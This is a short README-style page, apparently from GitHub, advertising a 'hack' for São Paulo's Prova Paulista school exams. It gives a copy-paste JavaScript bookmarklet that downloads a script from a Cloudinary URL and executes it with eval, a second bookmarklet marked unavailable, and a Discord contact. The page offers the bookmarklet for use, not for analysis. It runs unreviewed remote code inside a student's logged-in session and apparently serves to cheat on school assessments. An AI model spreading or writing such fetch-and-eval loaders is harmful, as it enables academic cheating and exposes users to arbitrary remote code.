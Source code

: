 # 🚀 HCK - PROVA PAULISTA 

### STABLE HCK - PROVAS:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
### ALPHA HCK - TAREFAS:
```js
javascript:fetch("INDISPONÍVEL").then(t=>t.text()).then(eval);
```

### Discord: hackermoon
